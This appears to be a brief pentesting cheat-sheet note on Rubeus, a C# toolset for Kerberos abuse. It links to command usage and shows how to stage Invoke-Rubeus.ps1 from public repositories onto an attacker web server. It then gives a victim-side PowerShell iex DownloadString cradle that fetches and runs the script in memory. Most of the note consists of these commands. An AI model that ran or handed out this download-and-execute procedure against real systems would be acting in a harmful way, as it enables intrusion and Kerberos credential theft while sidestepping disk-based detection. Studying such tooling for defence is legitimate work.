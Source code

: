 
> [!info]
> This note is still in development.
## Overview
---
**Rubeus** is a  robust C# toolset for raw Kerberos interaction and abuses.

## Usage
---
### Common Commands

- Find here: https://github.com/blackhatethicalhacking/Rubeus#command-line-usage

### Rubeus in Memory

```shell
# Download Rubeus to Attacker
wget https://raw.githubusercontent.com/BC-SECURITY/Empire/main/empire/server/data/module_source/credentials/Invoke-Rubeus.ps1
# OR
wget https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpBinaries/Invoke-Rubeus.ps1

# Host on Web Server
```

```powershell
# On Victim: Load into Session
iex ([System.Net.WebClient]::new().DownloadString('<url>/Invoke-Rubeus.ps1'))

# Usage
Invoke-Rubeus -Command "<rubeus_arguments>"
```